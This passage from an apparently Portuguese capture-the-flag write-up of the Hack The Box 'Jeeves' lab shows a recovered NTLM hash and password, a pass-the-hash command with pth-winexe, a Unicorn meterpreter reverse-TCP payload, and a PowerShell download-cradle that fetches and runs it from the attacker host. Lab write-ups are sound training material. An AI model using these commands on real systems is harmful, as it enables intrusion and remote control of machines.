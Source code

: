 ![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/htb-jeeves/J_k8.png)

`Hash NTLM = aad3b435b51404eeaad3b435b51404ee:e0fb1fb85756c24235ff238cbe81fe00`

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/htb-jeeves/J_k9.png)

`bob:lCEUnYPjNfIuPZSzOySA`

Tentamos nos logar com o `psexec.py` mas não deu muito certo...

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/htb-jeeves/J_pe.png)

## Pass-The-Hash

Como sabemos que temos um hash ai, ele não deve estar a toa, vamos tentar fazer o `Pass-The-Hash` com ele

`pth-winexe -U jenkins/administrator%aad3b435b51404eeaad3b435b51404ee:e0fb1fb85756c24235ff238cbe81fe00 //10.10.10.63 cmd.exe`

Sim! Conseguimos!

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/htb-jeeves/J_pth.png)

# Escalação de Privilégio (3ºModo - Unicorn - Meterpreter)

Outro modo que vamos explorar a máquina é através do Unicorn, ganhando um shell de meterpreter e abusando dos tokens por ai

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/htb-jeeves/J_u.png)

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/htb-jeeves/J_u1.png)

> python unicorn.py windows/meterpreter/reverse_tcp 10.10.16.117 443

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/htb-jeeves/J_u2.png)

Copiamos o `powershell_attack.txt` para a pasta de trabalho

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/htb-jeeves/J_u3.png)

Iniciamos o `msfconsole`

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/htb-jeeves/J_u4.png)

Agora executamos o `powershell_attack.txt` na máquina Jeeves, para ganharmos o shell de meterpreter

`IEX(New-Object Net.WebClient).downloadString('http://10.10.16.117/powershell_attack.txt')`

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/htb-jeeves/J_u5.png)

Bom agora passamos o `rottenpotato.exe` para dentro dele (no campo Usage do github tem o passo a passo para utilização que vamos fazer aqui)
